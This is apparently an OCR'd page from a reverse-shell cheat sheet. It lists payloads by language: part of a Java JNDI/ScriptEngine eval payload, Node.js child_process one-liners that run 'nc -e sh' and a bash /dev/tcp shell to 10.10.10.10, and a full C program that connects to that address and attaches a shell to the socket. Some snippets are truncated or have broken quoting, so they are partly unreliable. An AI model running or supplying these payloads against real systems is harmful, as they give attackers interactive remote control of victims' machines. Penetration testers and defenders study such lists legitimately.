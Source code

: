 ```js
                       "    catch (e) {"+
                       "    }"+
                       "}"+
                       "p.destroy();"+
                       "s.close();";
String x = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\""+command+"\")";
ref.add(new StringRefAddr("x", x);

```


## Node.js
```js
require('child_process').exec('nc -e sh 10.10.10.10 9001')
```


```js
require('child_process').exec('bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/31337 <&1')
```

Windows 
```js
require('child_process').exec('
```


## C 
Linux Version
```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```
